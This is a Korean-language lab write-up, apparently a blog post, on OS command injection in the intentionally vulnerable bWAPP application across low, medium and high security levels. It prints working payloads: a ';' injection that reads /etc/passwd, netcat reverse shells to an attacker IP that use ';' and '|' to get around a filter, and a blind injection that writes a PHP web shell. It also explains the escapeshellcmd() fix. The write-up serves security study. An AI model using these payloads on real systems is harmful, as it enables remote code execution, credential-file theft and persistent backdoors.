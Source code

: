 ```yaml
---
layout: single
title: (bWAPP)Command Injection
categories: Web-vuln
tag: [os injection, bwapp, bee box, command injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
sidebar:
    nav: "counts"
---
```


# 검증 로직

```php
function commandi($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
        case "1" :
            $data = commandi_check_1($data);
            break;
        case "2" :
            $data = commandi_check_2($data);
            break;
        default :
            $data = no_check($data);
            break;
    }
    return $data;
}
```

## Level - Low

> Low Level 에서는 아무런 검증이 이루어지지 않아 해당 취약점이 손쉽게 악용될 수 있다.

![그림 1-1](/assets/image/bwapp/injection/image1.png)
-  DNS lookup 기능을 수행하는 입력창이 존재
- 활성화된 버튼을 클릭하게 되면, http://www.nsa.gov 도메인에 대한 DNS Lookup이 이루어져 매칭되는 IP를 알려준다.

![그림 1-2](/assets/image/bwapp/injection/image2.png)

- 해당 능에서는 시스템 함수를 사용한다는 것을 짐작할 수 있다.
- 이 때 적절한 입력 값 검증이 이루어지지 않는다면, 시스템의 메타문자들을 이용하여 앞 명령어에 이어서 추가 명령어를 실행할 경우 RCE 취약점으로 연계가 가능하다.

```shell
www.nsa.gov; cat /etc/passwdw 
```

- 위 코드와 같이 ;(명령어 구분자)를 통해 새로운 시스템 명령어를 보내 서버측에서 실행하도록 하였다.

![그림 1-3](/assets/image/bwapp/injection/image3.png)
- 출력된 사진과 같이 성공적으로 /etc/passwd 코드를 읽어들여 브라우저상에 출력되는 걸 확인했다.
- 위와 같이 OS Injection 취약점이 존재할 경우 시스템 명령어 주입이 가능한경우 공격자 서버에서 reverse connection이 가능하다

```shell
nc -lvp 5252
```

- 공격자 PC에서 nc를 통해 포트를 열어놓은 상태에서
- cat /etc/passwd 인자 대신 nc [공격자 ip] 5252(포트) -e /bin/bash 를 인자로 주어 연결에 성공한다.

```shell
www.nsa.gov; nc 172.20.120.196 5252 -e /bin/bash
```

![그림 1-4](/assets/image/bwapp/injection/image4.png)
## Level - Medium
> Level - Medium 에서는 &, ; 메타문자가 필터링 된 걸 알 수 있다.

```php
function commandi_check_1($data)
{
    
    $input = str_replace("&", "", $data);
    $input = str_replace(";", "", $input);
    
    return $input;
```

> &와 ; 메타문자가 필터링 되었어도, \| 메타문자를 통해 두번 째 인자가 시스템 명령어로 실행이 가능하다.


```shell
www.nsa.gov | nc 172.20.120.196 5252 -e /bin/bash
```

## Level - High
> Level - High 에서는 escapeshellcmd() 함수를 통해 적절하게 검증이 이루어지고 있다.

```shell
function commandi_check_2($data)
{
   
    return escapeshellcmd($data);
    
}
```
>escapeshellcmd() 함수는 PHP 함수로서, 외부 명령을 실행하기 전 입력된 문자열에 대해 이스케이프 처리를 수행한다. 이를 통해 메타문자를 이스케이프하여, 쉘 명령을 실행할 수 없도록 한다.

# Blind - Based
> Blind 기반의 OS 인젝션 파트도 필터링은 동일하게 적용되어 있으며, Blind 기반의 OS 인젝션에 대한 부분중 하나를 실습해보았다. (해당 실습에서 사용된 방식을 제외한 여러 Blind 기반의 공격기법은 다양하지만 redirect 를 통한 Blinde 기반의 공격을 실습해보았다.)

![그림 1-5](/assets/image/bwapp/injection/image5.png)
 - 사진에서 볼 수 있듯, 명령어에 대한 어떠한 결과값이 도출되지 않고 있다

 ```shell
 127.0.0.1;echo '<?php system($_GET['cmd']) ?>' > /var/www/bWAPP/shell.php
 ```

 - 입력값과 추가 시스템 명령어를 전달하였다.
- 실습대상인 bWAPP의 웹 디렉터리 내에 shell.php 파일을 생성하였고, 웹 페이지에서 해당 경로로 접근하면 웹쉘이 실행되는것을 확인했다.
![그림 1-6](/assets/image/bwapp/injection/image6.png)

